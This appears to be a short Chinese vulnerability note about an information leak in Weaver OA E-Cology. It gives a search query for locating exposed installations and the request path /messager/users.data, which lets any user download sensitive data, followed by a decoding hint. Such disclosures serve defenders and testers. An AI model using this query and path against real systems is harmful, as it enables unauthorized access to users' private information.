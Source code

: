 # 

# 泛微OA E-Cology users.data 敏感信息泄漏

## 漏洞描述

泛微OA E-Cology users.data 允许任意用户下载，获取OA中的敏感信息

## 漏洞影响

```
泛微OA E-Cology
```

## 网络测绘

```
app="泛微-协同商务系统"
```

## 漏洞复现

登录页面

![image-20220520134158756](./images/202205201341810.png)

验证POC

```
/messager/users.data
```

![image-20220520134209598](./images/202205201342693.png)

base64 GBK解码
